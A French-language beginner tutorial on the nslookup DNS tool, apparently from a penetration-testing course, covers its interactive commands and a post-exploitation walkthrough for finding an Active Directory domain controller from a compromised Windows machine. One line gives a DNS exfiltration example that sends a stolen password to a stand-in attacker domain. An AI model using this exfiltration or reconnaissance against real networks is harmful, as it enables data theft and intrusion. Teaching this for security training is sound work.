

# nslookup — L'Annuaire Universel

<div
  class="omny-meta"
  data-level="🟢 Débutant"
  data-version="Windows/UNIX"
  data-time="~10 minutes">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — Le Botin Téléphonique de l'Hôtel"
    `dig` est un outil d'expert, très précis, mais il faut l'avoir installé sur sa machine (Linux). Si vous réussissez à vous introduire sur un serveur Windows à l'autre bout du monde (Post-Exploitation) et que vous avez besoin de savoir comment l'entreprise s'appelle de l'intérieur, vous n'aurez pas `dig`.
    Cependant, dans chaque chambre d'hôtel de ce réseau (sur chaque machine Windows), il y a un vieil annuaire téléphonique posé sur la table de chevet : **nslookup**. Il est un peu vieillot, ses pages sont parfois cornées, mais il vous donnera toujours le numéro de l'accueil ou des autres chambres.

**nslookup** (Name Server Lookup) est l'ancêtre de `dig`. Développé au début de l'Internet, il est aujourd'hui "Déprécié" (Legacy) dans le monde UNIX, mais reste l'outil de diagnostic DNS standard et natif du monde **Microsoft Windows**. Il permet les mêmes requêtes fondamentales (A, MX, TXT) mais avec une syntaxe plus conversationnelle et moins scriptable.

<br>

---

## Fonctionnement & Architecture (Le Mode Interactif)

La principale différence de `nslookup` avec les outils modernes est l'existence de son "Mode Interactif". Au lieu de taper une longue ligne de commande, l'attaquant ouvre le programme et interagit avec lui ligne par ligne.



<br>

---

## Cas d'usage & Complémentarité

L'utilisation de `nslookup` par une Red Team est quasiment exclusive à la phase de **Post-Exploitation Windows** (Étape 8 du Pentest).

1. **Reconnaissance Interne (Active Directory)** : Quand un attaquant obtient un *Reverse Shell* (une invite de commande CMD.exe) sur un poste Windows d'un employé, il utilise `nslookup` pour identifier où se trouve le contrôleur de domaine (Serveur AD).
2. **Exfiltration DNS** : De nombreux pare-feux d'entreprise bloquent l'accès à Internet pour les serveurs internes, mais autorisent les requêtes DNS (pour que le serveur puisse résoudre des noms locaux). L'attaquant peut utiliser `nslookup` pour faire sortir des données volées en les encodant dans de fausses requêtes de sous-domaines (ex: `nslookup mot_de_passe_vole.serveur_attaquant.com`).

<br>

---

## Les Commandes Interactives Principales

Une fois que vous tapez `nslookup` et que vous êtes dans le prompt `> `, voici les commandes utiles :

| Commande (Prompt `>`) | Fonction | Description approfondie |
| :--- | :--- | :--- |
| `server [IP]` | **Changer de DNS** | Demande au programme de poser les futures questions à cette IP au lieu de celle configurée dans la carte réseau Windows. |
| `set type=[TYPE]` | **Filtre** | Limite la recherche. (`set type=A`, `set type=MX`, `set type=TXT`, `set type=ANY`). |
| `[domaine]` | **Recherche** | Tapez simplement le nom du domaine pour interroger le serveur. |
| `exit` | **Quitter** | Pour revenir à votre invite de commande système (CMD / Bash). |

<br>

---

## Le Workflow Idéal (Le Pentest Windows)

Voici un cas pratique lors de la compromission d'un serveur Windows dans une entreprise. L'attaquant cherche l'adresse IP du contrôleur de domaine (SRV).

### 1. Entrer en mode interactif
```cmd title="Invite de commande Windows compromise"
C:\Users\j.dupont> nslookup
Default Server:  dc01.intra.corp
Address:  10.0.0.2
>
```
*Note: Juste en tapant `nslookup`, l'outil nous indique gentiment qui est le serveur de nom local de l'entreprise (Souvent, c'est le contrôleur de domaine lui-même !).*

### 2. Configurer la recherche de services (SRV)
Dans Active Directory, les informations système sont stockées dans des champs DNS spéciaux (Les records SRV).
```cmd title="Configuration du filtre"
> set type=SRV
```

### 3. Trouver le Contrôleur de Domaine (LDAP)
On demande spécifiquement à qui s'adresser pour s'authentifier sur le domaine local (Protocole LDAP).
```cmd title="Recherche du serveur AD"
> _ldap._tcp.dc._msdcs.intra.corp
```
Le serveur répondra avec le nom complet et l'adresse IP de la machine critique contenant tous les mots de passe de l'entreprise (Le DC). L'attaquant peut alors concentrer ses outils dessus (comme `BloodHound` ou `CrackMapExec`).

<br>

---

## Bonnes & Mauvaises Pratiques (Do's & Don'ts)

| Action | Recommandation | Explication métier |
|---|---|---|
| ✅ **À FAIRE** | **L'utiliser en "One-Liner" dans les scripts** | Si vous êtes sur Windows et devez scripter une résolution, vous pouvez utiliser la syntaxe en une ligne (identique à Linux) : `nslookup -type=TXT omnyvia.com 8.8.8.8` |
| ❌ **À NE PAS FAIRE** | **Utiliser nslookup sous Linux pour l'OSINT** | Si vous avez accès à votre machine Kali Linux (et donc à `dig` ou `host`), laissez `nslookup` tranquille. Ses réponses sont souvent bruitées (il affiche des informations sur votre propre connexion réseau avant de donner la réponse), ce qui le rend insupportable à nettoyer avec `grep` ou `awk`. |

